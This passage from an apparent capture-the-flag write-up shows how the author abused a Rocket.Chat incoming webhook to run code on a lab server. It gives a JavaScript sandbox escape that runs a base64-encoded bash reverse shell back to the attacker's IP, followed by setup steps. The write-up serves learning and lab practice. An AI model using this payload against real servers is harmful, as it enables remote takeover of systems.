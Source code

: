 *following the* ***exploit's way of creating its payload,*** we **created our own Integration** and **Incoming Web Hook** to **execute a bash reverse shell** instead of the `cmd` variable above.

**Here's the code:**

```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzkwMDAgMD4mMQ== | base64 -d | bash');
```

![](/assets/Talkative/rocket-chat-incoming-webhook-setup.jpg)

*After* ***filling out all the fields*** *similar to the exploit,* we **saved the changes.**

we then **copied** the `curl` command

![](/assets/Talkative/rocket-chat-obtaining-the-webhook-url.jpg)
